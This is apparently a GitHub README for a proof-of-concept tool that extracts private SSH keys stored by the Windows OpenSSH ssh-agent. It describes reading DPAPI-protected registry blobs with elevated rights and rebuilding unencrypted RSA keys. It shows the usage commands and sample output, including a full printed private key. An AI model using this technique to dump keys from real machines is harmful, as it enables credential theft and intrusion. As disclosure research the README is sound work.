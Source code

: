 # Intro
These scripts are a PoC for how to extract unencrypted private SSH keys from Windows when the new OpenSSH `ssh-agent.exe` is used.

When adding private keys to `ssh-agent`, Windows protects the private keys with DPAPI and stores them as registry entries under `HKCU:\Software\OpenSSH\Agent\Keys`

With elevated privileges, it is possible to pull out the binary blobs from the registry and unprotect them using DPAPI. These blobs can then be restructured into the original, unencrypted private RSA keys.

All credit for the Python code should go to the original implementatoin by soleblaze and his script `parse-mem.py` [here](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py)

# Usage
From an elevated Powershell prompt, use `extract_ssh_keys.ps1` to generate a JSON file which contains the Base64 data of the unprotected SSH keys. This script works by enumerating all SSH keys stored in the registry and calling DPAPI with the "Current User" context to unprotect the binary data.

```
C:\tools> .\extract_ssh_keys.ps1
Pulling key:  .\ropnopkey2
Pulling key:  .\ropnopkey1
extracted_keyblobs.json written. Use Python script to reconstruct private keys: python extractPrivateKeys.py extracted_keyblobs.json
```

The Python script requires Python 3 and the `pyasn1` package. Run the Python script on the saved JSON file to re-construct the original, uncnecrypted RSA private keys:

```
C:\tools> python .\extractPrivateKeys.py .\extracted_keyblobs.json
[+] Key Comment: .\ropnopkey2
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtekm5ikm0lh9fIiqslAUVUAhbI48/+khBFstx7jbz0XfcvAo
XS3wxeer7UeaIXRJAXARy4ARi6fk9W6PfdP3zKFd7D1MV1WG0FAogxWUXOxiYxgZ
yihsYNQ2NQmnVrW2C67+RZ2tTwNEEUGRVPi0QRjLlwXWPm6+0bFF4d0A7ivwTa0+
EYVow48E74v5BMOxW+h87ZassRvAO22vZXV7Tr/VnwM3GoLPXTSAUxVsO0nhDs07
JCXsu8oO7zH3Ql/I330QxAYo3qG0c/Ega3m474vVdIQOYdiaYxmN1u29wR9MAUNx
/fY9yOTc0+prwWVt5GqZ3y89d9PI1VJfqNa6LQIDAQABAoIBAQCLjycHtxSQldEY
BKWojWU8DipWZT2JO+rXs7gInNsORtXqETN2YTNyMY2mSaOG/PaxgrA0RrmvQgyW
+s5dQ4y90iMDhfeWnQgDsyuRfbHIJJZK3geTH7YeB1DbGd/m1xumFQgAkrqOfrvu
3TXJUdDAjGxNHe5DEaWVrIIniO0YyxMV10M2s2D6GtNHBjzop9YDegvkeQxNbO0K
tKcDhJ/QPrkT+J8yCnRpStYC+kNlbOlBKkmdTJ5nhtmlZ8mWqpIgocvKrOZavsAh
7SKpWt/Sjjoc+8wwt4dNiy8WnbHGFPb6W9lxdjDxpmoTn2bQOaS0oo61KJU7m60O
SdgQwtUBAoGBAOXhnKWe2wKN/sx+/PYEvh2bi5xtugcOufCTqFlTYpxsgG0717s2
1Ljwh7yjtTv6bS+6tXFrAy8QhKwLiuXnn8OAaPb9hMbpqGDhk04GcDWP/1oqS/2Y
gMfeoBF6P3+q969kFbZwMCj/zsOEXnwTJGN6bxHBKassslts3Lf8jVjtAoGBAMqU
QY0EebxJAQm3BgsQ0fsNli0CFGAm7iSlYmsSkcbcwZfL9hzxccKZDpZpXr2WV9wf
dqfUoQyowSbZEz5kcuEeRe4Ofzf0ADs0fdMYRg0fvZ9JUCsTq+ecj3U25vNeXW9F
kD7mYnEbY9lMkMvna4uthraxBQEZyyWjHsu2mP5BAoGBALukYFBUjeLU8zILSgKr
NmBGkjw62Mlf/OjiLl3Tkb+rVV1UprCbfiIDvFh/rLTromp+VhLhTfUB37nrphIp
8iAL1iIeKF6RZa7HEo1y9e7SvpXjxqmW7S+4iiIaDnDwpkLVSF/lzXn57NVtXA6d
NWu6CaWNbazazC+Secv464u1AoGAdK2tj75bK3JU8baD+Y2nk9UAgU3oVHU3xs2n
AQrCAesWagrk50i9gBrOBx4LnmDgm/1XR1U1qWftUCXJaq9KZ5UbLAEXjy+vjmou
ao5ZkqeMfRkp3pXG9nD7Q8TqgpQAdt13NnNVkdX3zanG4FqbW+kHZWRSAI9NrZDl
ZOn39sECgYBj6IPFbBxllysESiV6Tcvb98ffKjWBvL3MM4ENfzlH0fCNGNkVPDvn
ufMwjM3PqhUFXVBQHm0eMZDLLcLpLUxxIpiOdmLDk6XhAY+1Vc90OmDrCoADUxdg
Eq/hFJMNz4ZMio4KVd+BUVM2rt4zjq0tcxtOrMABdddCRBkuwhluSQ==
-----END RSA PRIVATE KEY-----
```

Blog post here explaining my process: https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent

## Credits
https://gist.github.com/atifaziz/10cb04301383972a634d0199e451b096

https://blog.netspi.com/stealing-unencrypted-ssh-agent-keys-from-memory/

https://github.com/NetSPI/sshkey-grab

